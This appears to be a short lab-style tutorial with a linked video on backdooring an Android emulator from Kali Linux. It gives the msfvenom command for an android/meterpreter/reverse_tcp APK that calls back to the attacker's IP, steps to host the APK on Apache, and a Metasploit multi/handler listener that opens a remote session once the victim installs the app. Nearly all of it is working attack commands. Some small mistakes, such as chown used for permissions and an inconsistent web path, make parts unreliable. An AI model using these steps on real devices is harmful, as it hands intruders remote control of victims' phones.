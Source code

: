 1) Creating binary payloads to hack kali linux 
	1) creating server and testing devices located in the network which are prone to attacks
	2) Attacking the device using simple backdoor and monitor the system activity 
2) In the machine click the device menu go the terminal emulator press su to get root
3) type ip addr 10.10.10.69/24 dev eth0 to add the ip 
4) open Kali 
	1) service postgresql start 
	2) msfvenom -l to view all the payloads 
	3) to generate a reverse android payload use the command `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=kali_IP R > Desktop/Backdoor.apk`
	4) create a folder ` mkdir /var/www/html/share`
	5) change file perms of the folder to 755 using the command **chown  -R 755 /var/www/html/share** 
	6) change the ownership of the folder to www-data by **chown -R www-data:www-data /var/html/share** 
	7) **cp /root/Desktop/backdoor.apk /var/www/html/share**
	8) service apache2 start 
	9) open metasploit start listener **use exploit/multi/handler** set payload **android/meterpreter/reverse_tcp** 
	10) set lhost to kali IP add
	11) exploit -j -z 
5) go to the android emulator open browser type `http://kali_IP/share` 
6) download and install and open 
7) in kali 
	1) session -i 1 
Done 



https://www.youtube.com/watch?v=b2YrqpeklFw&list=PLrrgFyE6PtlaCixUxJPM0Y9Peye6iCewH&index=13

